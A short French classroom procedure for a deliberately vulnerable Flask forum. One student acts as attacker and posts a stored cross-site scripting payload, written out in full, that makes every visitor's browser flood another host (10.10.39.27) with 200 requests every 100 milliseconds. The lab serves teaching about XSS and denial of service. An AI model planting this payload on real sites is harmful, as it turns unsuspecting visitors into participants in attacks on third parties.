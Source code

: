 # Procédure

## Démarrer le serveur cible sur le poste du professeur

## Démarrer le forum sur la machine locale (poste du professeur)

- Se placer dans le dossier du projet forumPassoire **cd /path/to/forumPassoire**
- Lancer le serveur flask avec la commande **python3 app.py**
- Vérifier avec un navigateur en allant sur l'adresse **http://127.0.0.1:5000**
- Afficher l'adresse IP du professeur pour que chaque étudiant puisse se connecter au forum

## Créer un post qui envoie des requêtes

- Choisir un étudiant X, le pirate
- Les autres sont les utilisateurs du forum
- X navigue vers http://127.0.0.1:5000/create_post
- X saisit le code suivant dans le post :
```html
Mon message qui va s'afficher
<script>
// Send 100 requests in parallel 
const sendRequests = async () => {
    const url = 'http://10.10.39.27/';
    const requests = [];

    for (let i = 0; i < 200; i++) {
        requests.push(fetch(url, { mode: 'no-cors'}));
    }

    try {
        const responses = await Promise.all(requests);
        const results = await Promise.all(responses.map(response => response.text()));
        console.log(results);
    } catch (error) {
        console.error('Error with requests:', error);
    }
};
// Example: Send 100 requests in parallel
setInterval(sendRequests, 100);
</script>
```
- X publie son post
- Tous les participants rechargent la page du forum
